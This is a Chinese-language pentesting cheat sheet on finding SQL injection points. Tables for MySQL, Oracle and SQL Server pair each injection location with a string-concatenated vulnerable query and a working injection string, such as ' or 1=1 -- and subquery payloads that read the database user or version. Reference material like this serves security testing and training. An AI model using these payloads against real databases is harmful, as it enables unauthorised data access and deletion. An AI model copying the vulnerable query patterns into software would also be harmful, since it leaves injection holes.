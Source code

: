 ###  注入定位 {docsify-ignore-all}

当注入发生的地方并不明显时，SQL注入总是很麻烦。有一些方法可以在查询的各个部分利用注入是有帮助的。


`$injection`确定注入点。修改数据的注入尝试始终使用连接，并允许查询的其余部分有效。通过[这个文章](https://blog.netspi.com/sql-injection-help-sleep-night/)可以了解更多信息。

#### MySQL


| 注入位置   |      语句     | 注入字符串 |
|----------|:-------------:|:-------------:|
| SELECT -> WHERE   |      SELECT * FROM USERS WHERE USER='$injection';    | ' or 1=1 -- |
| UPDATE -> SET   |      UPDATE USERS SET email='$injection' WHERE user='NetSPI';     | ' 'harold@netspi.com' ' |
| UPDATE -> WHERE <br />注意：尝试将注入字符串设置为有效的WHERE值。 如果对象已更新，则注入成功。   |      UPDATE USERS SET email='harold@netspi.com' WHERE user='$injection';   | ' 'netspi' ' |
| DELETE -> WHERE <br />注意：运行删除语句时要非常小心，因为整个表都会被删除。   |      DELETE FROM USERS WHERE USERS='$injection';     | ' 'harold@netspi.com' ' |







#### Oracle


| 注入位置   |      语句     | 注入字符串 |
|----------|:-------------:|:-------------:|
| SELECT -> WHERE   |      SELECT user FROM dual WHERE user LIKE '$injection';     | '&#124;&#124;'USER%'&#124;&#124;' |
| INSERT -> VALUES   |     INSERT INTO log_table (message) VALUES ('$injection');     | '&#124;&#124;(select user from dual)&#124;&#124;' |
| UPDATE -> SET   |      UPDATE log_table SET message = '$injection' WHERE message = 'test';     | '&#124;&#124;(select user from dual)&#124;&#124; |
| UPDATE -> WHERE <br />注意：尝试将注入字符串设置为有效的WHERE值。 如果对象已更新，则注入成功。  |      UPDATE log_table SET message = 'test' WHERE message = '$injection';     | '&#124;&#124;'Injected'&#124;&#124;' |





#### SQL Server

| 注入位置   |      语句     | 注入字符串 |
|----------|:-------------:|:-------------:|
| SELECT -> WHERE   |      SELECT * FROM USERS WHERE "USER"='$injection';     | ' or 1=1 -- |
| UPDATE -> SET  |      	UPDATE USERS SET "email"='$injection' WHERE "USER"='NetSPI';    | '+'harold@netspi.com'+' |
| UPDATE -> WHERE <br />注意：尝试将注入字符串设置为有效的WHERE值。 如果对象已更新，则注入成功。   |      UPDATE USERS SET "email"='harold@netspi.com' WHERE "USER"='$injection';     | '+'NetSPI'+' |
| DELETE -> WHERE  |      DELETE USERS WHERE "User"='$injection';    | '+'NetSPI'+' |
| INSERT -> VALUES  |      INSERT INTO USERS ([User], [Password]) VALUES ('$injection', 'password');     | '+(select @@version)+' |





